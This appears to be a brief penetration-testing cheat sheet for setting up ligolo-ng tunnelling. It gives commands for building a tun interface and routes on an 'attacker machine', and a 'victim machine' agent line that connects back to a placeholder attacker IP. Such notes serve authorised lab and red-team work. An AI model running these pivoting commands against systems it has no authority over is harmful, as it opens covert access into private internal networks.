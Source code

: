 https://github.com/Nicocha30/ligolo-ng
# Attacker machine
## Create new tun interface:
```bash
sudo ip tuntap add user kali mode tun ligolo
```
```bash
sudo ip link set ligolo up
```
```bash
ip a show
```
```bash
sudo ip route add $(IP_ADDRESS)/24 dev ligolo
```
i.e.
```bash
sudo ip route add 192.168.1.0/24 dev ligolo
```
Can create self signed certs with -selfcert but -autocert should be used as we have internet access.

Use proxy from this machine:
```bash
ligolo-proxy -selfcert/-autocert
```
When the connection is receieved:
```
session
```
```
1
```
```
start
```
# Victim machine
```
./agent -connect [ATTACKERIP]:11601
```
